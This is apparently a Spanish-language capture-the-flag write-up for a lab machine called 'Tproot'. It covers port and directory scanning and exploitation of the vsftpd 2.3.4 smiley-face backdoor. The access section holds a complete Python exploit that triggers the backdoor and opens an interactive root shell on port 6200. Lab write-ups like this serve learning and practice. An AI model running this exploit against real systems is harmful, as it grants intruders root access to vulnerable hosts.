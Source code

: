 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓25/07/2025'
---
```


# Tproot

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap` :

<div align="left"><figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

Vemos que el login anónimo en el servidor FTP da fallo. El puerto 80 aloja un servidor web con la página por defecto de apache en el directorio raíz. Si le hacemos un listado de directorios, no encontramos nada relevante.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Si buscamos algún exploit para los puertos encontrados, vemos que existe uno para el puerto `ftp` :

<div align="left"><figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

Esta versión de `FTP` presenta una vulnerabilidad de manera que si introducimos un nombre de usuario en el login del `FTP`  terminado en `:)` , se abre una backdoor en el puerto 6200 (más [info](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)).

## 🚪 Ganando acceso

Utilicé un exploit hecho en `python`  con la librería `socket` :

```python
#!/usr/bin/python3

import socket
import argparse
import time
import sys

parser = argparse.ArgumentParser(description='vsftpd 2.3.4 backdoor exploit')
parser.add_argument('-host', dest='host', required=True, help='IP del objetivo')
args = parser.parse_args()

host = args.host
ftp_port = 21
shell_port = 6200

# Paso 1: Enviar usuario malicioso por FTP
print(f"[+] Conectando al FTP en {host}:{ftp_port}")
try:
    s = socket.create_connection((host, ftp_port), timeout=5)
    banner = s.recv(1024).decode()
    print(f"[+] Banner recibido: {banner.strip()}")
    
    s.sendall(b'USER backdoor:)\r\n')
    s.recv(1024)  # leer respuesta

    s.sendall(b'PASS cualquiercosa\r\n')
    s.recv(1024)
    s.close()
except Exception as e:
    print(f"[-] Error al conectar al FTP: {e}")
    sys.exit(1)

# Esperar a que se abra la shell
print("[*] Esperando a que se active la backdoor (puerto 6200)...")
time.sleep(2)

# Paso 2: Conectarse al puerto 6200
print(f"[+] Intentando conexión a {host}:{shell_port}")
try:
    shell = socket.create_connection((host, shell_port), timeout=5)
    print("[+] ¡Conectado! Shell activa. Puedes escribir comandos. Usa 'exit' para salir.\n")

    while True:
        cmd = input("$ ")
        if cmd.strip().lower() == "exit":
            break
        shell.sendall((cmd + "\n").encode())
        time.sleep(0.5)
        data = shell.recv(4096)
        print(data.decode(errors='ignore'))

    shell.close()
except Exception as e:
    print(f"[-] No se pudo conectar al puerto 6200: {e}")
    sys.exit(1)
```

Al ejecutar el exploit, ganamos acceso con una shell como `root` :

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
